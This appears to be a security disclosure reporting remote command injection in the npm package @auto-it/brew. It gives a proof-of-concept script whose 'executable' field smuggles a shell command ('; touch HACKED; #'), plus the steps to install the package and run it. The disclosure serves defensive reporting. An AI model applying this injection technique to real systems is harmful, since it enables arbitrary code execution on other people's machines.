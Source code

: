 # :bug: Description

The `@auto-it/brew` module is vulnerable against `RCE` since the `inputs` are `formatted` inside a command executed without checks, leading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var brew = require('@auto-it/brew');
var Brew = new brew.default();
Brew.createFormula({git:{getLatestTagInBranch:function(){}}, logger:{log:{error:function(){}, info:function(){}}}}, {"executable":"ssss; touch HACKED; #", "name":"test"})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i @auto-it/brew # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
